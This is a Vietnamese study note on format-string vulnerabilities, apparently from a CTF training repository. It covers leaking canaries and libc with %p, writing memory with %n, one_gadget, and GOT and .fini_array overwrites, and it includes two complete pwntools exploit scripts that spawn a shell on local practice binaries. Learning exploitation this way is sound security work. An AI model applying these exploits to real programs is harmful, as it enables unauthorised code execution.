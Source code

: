 # Giới thiệu chung
- %p, in địa chỉ trên thanh ghi  
  - đối với biến khi a = "A"; print("%p", a) thì khi đến hàm print() trên thanh ghi rsi là 0x41 nên %p sẽ in ra giá trị 0x41  
  - đối với mảng khi a[10] = "ABCDEABCDE" thì print("%p", a) sẽ in ra địa chỉ đầu của mảng  
- %c in ra 1 byte đang có trên thanh ghi và in ra theo ascii nghĩa là 0x1234 thì %c sẽ in ra 0x34 và đổi về kí tự theo mã ascii  
- %s nhận vào địa chỉ và in ra chuỗi mà địa chỉ đó đang trỏ đến, còn đối với mảng, khi print("%s", a) thì thanh ghi sẽ tự truyền địa chỉ đầu mảng vào và 
- %s sẽ trỏ đến địa chỉ đó và in ra cho đến khi gặp 0x00  
- %n đếm số lượng byte được in ra trước nó, rồi ghi vào biến được truyền địa chỉ

> Lưu ý:  
> Đối với 32bit: in dữ liệu trên stack  
>	64bit: 5% đầu của 5 thanh ghi, % thứ 6 là dữ liệu trên stack  


# leak dữ liệu bằng %p
%p sẽ in dữ liệu trên stack dưới dạng hex()
p64(): pack64 chuyển hex sang bytes
u64():unpack chuyển bytes sang hex

# leak dữ liệu = %s
%s leak dữ liệu địa chỉ mà địa chỉ trỏ đến (con) trong con trỏ  

Lưu ý khi fread() đọc dữ liệu từ file vào chương trình, khi đó ta cần lưu ý ,cẩn thận có thể sẽ chia flag ra nhiều phần. 

# %n
để thay đổi dữ liệu của một biến, ta sẽ cho in ra %{giá trị cần thay đổi}$c sau đó dùng %n để đọc các byte đã in ra và lưu vào địa chỉ mà %n trỏ đến  
Trường hợp giá trị cần thay đổi quá lớn thì có thể chia thành 2 lần in, tuy nhiên lần thứ 2, %n sẽ đọc n byte của lần 1 và cộng m byte của lần 2

# FMT & BOF
ở đây ta sử dụng một công cụ mới khi bof ret2libc là one_gadget, one_gadget có chức năng liệt kê ra các system('/bin/sh') và các điều kiện đi kèm, thường dùng cho trường hợp PIE bật.
cú pháp: ``` one_gadget tênfile ```
![image](https://user-images.githubusercontent.com/111769169/221520986-6851fe89-f872-4afa-84c2-d708f57fafd1.png)  

<details> <summary> script </summary>

```python3
from pwn import *
exe = ELF("./fmtstr4_patched")
libc = ELF("./libc-2.31.so")
p = process(exe.path)
gdb.attach(p, gdbscript = '''

b*main+354
c
           ''')
input()

payload = b'01234456789 %21$p %23$p'
p.sendafter(b"ID: ", payload)
p.sendafter(b'Password: ', b'&WPAbC&M!%8S5X#W')
p.recvuntil(b"01234456789 ")

canary = int(p.recv(18), 16)
leak_libc = int(p.recvuntil(b"Enter", drop = True)[1:], 16)
libc.address = leak_libc - 0x24083
log.info('canary: ' + hex(canary))
log.info('leak libc: ' + hex(leak_libc))
log.info('base: ' + hex(libc.address))
log.info('system ' + hex(libc.sym['system']))

one_gadget = libc.address + 0xe3b01
payload2 = b'a' * 56 + p64(canary) + b'b' *8
payload2 +=  p64(one_gadget)
p.sendafter(b"your secret: ", payload2)
p.interactive()
```

</details>

# %*
[FMT_Xmaster.md](https://github.com/wan-hyhty/trainning/blob/task3/FMT/FMT_Xmaster.md)

# Tấn công GOT 
[xFMasTree.md](https://github.com/wan-hyhty/trainning/blob/task3/FMT/xFMasTree.md)  

# Tấn công .fini_array  

đặc điểm nhận dạng: con trỏ không phải địa chỉ stack, hay binary, như lại trỏ đến địa chỉ là base của binary, gần biến môi trường  
.fini_array: là mảng, chứa địa chỉ để thực thi khi chương trình exit, khi đó chương trình sẽ lấy địa chỉ base + với offset để thực thi  
  
Nhiệm vụ của chúng ta là thay đổi địa chỉ con trỏ trỏ đến địa chỉ mới  
Đầu tiên tìm offset fini_array: dùng info files  
bước 2 leak exe  
bước 3 kiểm tra vùng read write, viết địa chỉ hàm get_shell vào vùng địa chỉ đó  
Ở đây ta chú ý  
```python
# offset từ vị trí ta viết hàm shell và base 0x40e0
package = {
    exe.sym['get_shell'] >> 0 & 0xffff: exe.address + 0x40e0,       #lấy 2 byte đầu, gán exe.address + 0x40e0
    exe.sym['get_shell'] >> 16 & 0xffff: exe.address + 0x40e0+2,
    exe.sym['get_shell'] >> 32 & 0xffff: exe.address + 0x40e0+4,
}
order = sorted(package) #sắp xếp giá trị để khi %c ta sẽ chỉ cần cộng từ nhở đến lớn

payload2 = f'%{order[0]}c%13$hn'.encode()               #ở đây payload sẽ lấy order 0 được gán giá trị  exe.address + 0x40e0
payload2 += f'%{order[1] - order[0]}c%14$hn'.encode()
payload2 += f'%{order[2] - order[1]}c%15$hn'.encode()
payload2 = payload2.ljust(64 - 24, b'a')
payload2 += p64(package[order[0]]) + p64(package[order[1]]) + p64(package[order[2]])
```
<details> <summary> script </summary>
  
  ```python
  from pwn import *

exe = ELF('./fmtstr8_patched', checksec=False)
libc = ELF("libc-2.31.so", checksec=False)
p = process(exe.path)
gdb.attach(p, gdbscript='''
           b* main+136
           c
           ''')
input()

# offset fini_array = 0x3d90

### Leak binary ###
payload1 = b"%23$p"
p.sendlineafter(b"something: ", payload1)
p.recvuntil(b"said: ")
leak_exe = int(p.recvline(keepends=False), 16)
exe.address = leak_exe - exe.sym['main']
p.sendlineafter(b"> ", b'n')
log.info("leak exe: " + hex(leak_exe))
log.info("base exe: " + hex(exe.address))

### viet ham get_shell ###
# offset 0x40e0
package = {
    exe.sym['get_shell'] >> 0 & 0xffff: exe.address + 0x40e0,
    exe.sym['get_shell'] >> 16 & 0xffff: exe.address + 0x40e0+2,
    exe.sym['get_shell'] >> 32 & 0xffff: exe.address + 0x40e0+4,
}
order = sorted(package)

payload2 = f'%{order[0]}c%13$hn'.encode()
payload2 += f'%{order[1] - order[0]}c%14$hn'.encode()
payload2 += f'%{order[2] - order[1]}c%15$hn'.encode()
payload2 = payload2.ljust(64 - 24, b'a')
payload2 += p64(package[order[0]]) + p64(package[order[1]]) + p64(package[order[2]])
print(package)
print(order)
p.sendlineafter(b'something: ', payload2)
p.sendlineafter(b"> ", b'n')
### fini_array ###
# 0x00564529b7b000 + x + 0x3d90 = 0x564529b7f0e0 
# 0x564529b7f0e0 - 0x3d90 - 0x00564529b7b000 = 0x350
payload3 = f'%{(exe.address + 0x350) & 0xffff}c%38$hn'.encode()

p.sendlineafter(b'something: ', payload3)
p.sendlineafter(b"> ", b'y')
p.interactive()

  ```
  
  </details>
  

